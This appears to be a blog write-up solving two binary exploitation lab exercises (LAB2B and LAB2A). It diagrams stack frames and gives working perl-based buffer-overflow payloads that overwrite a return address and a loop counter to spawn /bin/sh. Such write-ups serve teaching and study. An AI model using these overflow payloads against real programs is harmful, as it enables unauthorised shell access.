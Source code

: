 ```yaml
---
title: "m0d3rn b1n4ry expl0it4ti0n write-up"
author: A1phaZer0
layout: post
category: HackING
---
```

**LAB2B:**
```bash
+===============+
|_____argv______|
|_____argc______|
|_____ret_______|
|____oldebp_____|<- ebp_main
|               |
|               |
|_______________|(pointer to '/bin/sh')
|__p_to_string__|
|_____ret_______|
|___ebp_main____|<- ebp_print_name
|               |
|               |
|_______________|
|__p_to_string__|
|_____dest______|(ebp_print_name-0x17)
```
<!--more-->
Now, it's clear, we just need 0x17 bytes to override until `ebp_print_name`, then 4 bytes to override `ebp_print_name`, then 4 bytes to override `ret`, we can redirect `ret` to function `shell`.  
After returning from `print_name`, `esp` will point to `p_to_string`, since function `shell` use `ebp-0x8` as argument, so we need put pointer to '/bin/sh' into somewhere 4 bytes after `p_to_string`.
```bash
$ ./lab2B $( perl -e 'print "A"x27 . "\xbd\x86\x04\x08" . "\xd0\x87\x04\x08"x2' )
```
**LAB2A:**
```bash
+===============+
|______ret______|
|____old_ebp____|<- ebp_c
|               |
|               |
|_______________|<- ebp_c - 0x14
|_ebp_c_-_0x14__|<- ebp_c - 0x18
|_______i_______|
|               |
|               |
|               |
|_______________|<- ebp_c - 0x28
|_______________|
|_______________|
|_____0x10______|<- 'size' argument in fgets(), means 15 chars at most.
|_ebp_c_-_0x28__|
```
`i` is a counter, starts from `0x0` to `0x9`, everytime fgets() reads a string to `ebp_c - 0x28`, `i` increases by 1, then one character is taken to `ebp_c - 0x14`.  
Since there are 12 bytes between `ebp_c - 0x28` and i, but fgets() can at most read 15 characters, so we can override i, by that `ret` will also be modified.
```bash
$ for i in $( seq 1 24 ); do perl -e 'print "a" x 12 . "\x0a"'; done > /tmp/abc
$ perl -e 'print "\xfd" x 12 . "\x0a"' >> /tmp/abc
$ perl -e 'print "\x86" x 12 . "\x0a"' >> /tmp/abc
$ perl -e 'print "\x04" x 12 . "\x0a"' >> /tmp/abc
$ perl -e 'print "\x08" x 12 . "\x0a"' >> /tmp/abc
$ perl -e 'print "a" x 11 . "\x0a"' >> /tmp/abc
$ for i in $( seq 1 10 ); do perl -e 'print "a" x 10 . "\x0a"'; done >> /tmp/abc
$ { cat /tmp/abc; echo "whoami"; } | ./lab2A
```
**NOTICE:**
+ `\x0a` also is `\n`.  
+ In both cases, we expect to run `system('/bin/sh')`, but there're tiny differences between LAB2B and LAB2A.  
  In LAB2B you will finally get an interactive shell, because new shell will inherit standard input as it's input.  
  In LAB2A new shell is connected to a pipe(buffer), when left command-list finished there will be an `EOF` and pipe will be closed so does the new shell. So we need to override `i` back to 0(NULL, fgets() can do it), to make sure fgets() read enough data and finish properly, in the end `whoami` will not be swallowed but redirected to the new shell.
